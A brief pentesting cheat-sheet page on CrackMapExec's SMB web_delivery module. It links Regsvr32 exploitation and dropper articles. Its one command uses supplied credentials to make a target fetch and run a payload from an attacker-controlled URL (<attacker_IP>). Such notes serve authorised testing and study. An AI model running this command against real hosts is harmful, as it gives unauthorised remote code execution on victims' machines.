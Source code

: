 # CrackMapExec

## 01 - Web Delivery

- Refer to [[Pentesting Phases/Initial Access/Delivery/Web Drive-by/Metasploit|Metasploit Web Delivery]] module.

`$ crackmapexec smb <IP> -u <username> -p <password> -d <domain_name> -M web_delivery -o URL=http://<attacker_IP>/<URI>`

---
## References

- [Windows Exploitation Regsvr32](https://www.hackingarticles.in/windows-exploitation-regsvr32/)

- [Cross Platform Dropper](https://khast3x.club/posts/2020-06-27-Cross-Platform-Dropper/)